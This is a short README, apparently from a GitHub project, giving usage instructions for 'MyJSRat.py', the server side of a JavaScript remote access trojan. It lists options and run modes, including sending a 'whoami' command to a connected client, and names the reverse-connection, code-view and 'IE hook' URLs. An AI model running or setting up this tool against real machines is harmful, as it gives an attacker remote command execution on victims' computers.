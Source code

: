 # How to Use Python_JSRAT:

## JSRat Server
Usage: MyJSRat.py [options]
Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -i IP, --ip=IP        IP to Bind Server to (i.e. 192.168.0.69)
  -p PORT, --port=PORT  Port to Run Server on
  -u URL, --url=URL     URL to Initiate Client Connection (default: /connect)
  -f, --find-ip         Display Current Internal and External IP Addresses
  -c CMD, --command=CMD
                        auto Send command to client (No interaction)
  -v                    Enable Verbose Output

## Two Modes:
  1-Interactive mode
   python MyJSRat.py -i 192.168.1.101 -p 8080
  2-Command mode
  python MyJSRat.py -i 192.168.1.101 -p 8080 -c "whoami"
  
## Url explain:
http://192.168.1.101:8080/connect  default reverse url

http://192.168.1.101:8080/wtf To see the code ran on the client

http://192.168.1.101:8080/hook IE hook link
